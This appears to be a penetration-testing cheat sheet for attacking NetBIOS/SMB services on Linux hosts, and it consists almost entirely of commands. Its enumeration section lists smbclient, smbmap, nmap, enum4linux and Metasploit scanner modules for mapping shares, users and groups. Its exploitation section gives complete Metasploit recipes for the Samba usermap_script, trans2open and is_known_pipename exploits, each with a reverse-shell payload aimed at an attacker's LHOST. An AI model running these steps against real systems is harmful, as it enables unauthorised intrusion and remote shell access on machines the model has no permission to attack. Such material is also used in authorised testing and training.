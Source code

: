 # NetBios (Linux)

## Enumeration

#### SMBClient

##### Enumerate SMB Shares (basic)
```bash
smbclient -L [IP] -p 139
```

##### Connect to an SMB Share (anonymous)
```bash
smbclient //[IP]/[SHARE] -p 139
```

##### Connect to an SMB Share (Windows-style path)
```bash
smbclient \\\\[IP]\\[SHARE] -U [USER] -p 139
```

##### Connect to an SMB Share (Linux-style path with user)
```bash
smbclient //[IP]/[SHARE] -U [USER] -p 139
```

#### nmblookup
##### Enumerate Hostname
```bash
nmblookup -A [IP]
```

### List Shares

```bash
smbmap -H [IP]
```
```bash
smbmap -u anonymous -p anonymous -H [IP]
```
```bash
smbclient -L \\\\[IP]
nmap --script smb-enum-shares -p 139,445 [IP]
```

##### enum4linux
```bash
enum4linux -a [IP]
```

### Metasploit

##### smb_version
```bash
use scanner/smb/smb_version
set RHOSTS [IP]
set RPORT 139
run
```

##### smb_enumshares
```bash
use scanner/smb/smb_enumshares
set RHOSTS [IP]
set RPORT 139
run
```

##### smb_enumusers
```bash
use scanner/smb/smb_enumusers
set RHOSTS [IP]
set RPORT 139
run
```

##### smb_lookupsid
```bash
use scanner/smb/smb_lookupsid
set RHOSTS [IP]
set RPORT 139
run
```

##### smb_enumgroups
```bash
use scanner/smb/smb_enumgroups
set RHOSTS [IP]
set RPORT 139
run
```


---
---


## Exploitation

### Metasploit

##### samba_usermap_script
```bash
use exploit/linux/samba/usermap_script
set RHOSTS [IP]
set RPORT 139
set PAYLOAD cmd/unix/reverse_netcat
set LHOST [IP]
set LPORT [port]
run
```

##### samba_trans2open
```bash
use exploit/linux/samba/trans2open
set RHOSTS [IP]
set RPORT 139
set PAYLOAD cmd/unix/reverse
set LHOST [IP]
set LPORT [port]
run
```

##### samba_is_known_pipename
```bash
use exploit/linux/samba/is_known_pipename
set RHOSTS [IP]
set RPORT 139
set PAYLOAD cmd/unix/reverse
set LHOST [IP]
set LPORT [port]
run
```